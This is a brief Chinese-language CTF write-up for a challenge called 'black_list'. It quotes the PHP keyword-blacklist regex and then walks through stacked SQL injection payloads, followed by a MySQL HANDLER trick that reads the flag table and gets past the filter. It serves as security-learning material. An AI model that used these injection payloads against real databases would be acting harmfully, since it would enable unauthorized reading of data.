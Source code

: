 



### black_list

这题让我学到一个骚操作和看到一篇好文章

```
return preg_match("/set|prepare|alter|rename|select|update|delete|drop|insert|where|\./i",$inject);
```

利用堆叠注入查询

```
array(1) {
  [0]=>
  string(8) "FlagHere"
}

array(1) {
  [0]=>
  string(5) "words"
}
```





```
1';show create table words;#
array(2) {
  [0]=>
  string(5) "words"
  [1]=>
  string(114) "CREATE TABLE `words` (
  `id` int(10) NOT NULL,
  `data` varchar(20) NOT NULL
) ENGINE=MyISAM DEFAULT CHARSET=utf8"
}


1';show create table FlagHere;#
array(2) {
  [0]=>
  string(8) "FlagHere"
  [1]=>
  string(93) "CREATE TABLE `FlagHere` (
  `flag` varchar(100) NOT NULL
) ENGINE=MyISAM DEFAULT CHARSET=utf8"
}
```



利用handler来读取数据

` 1';handler FlagHere open;handler FlagHere read first;#`
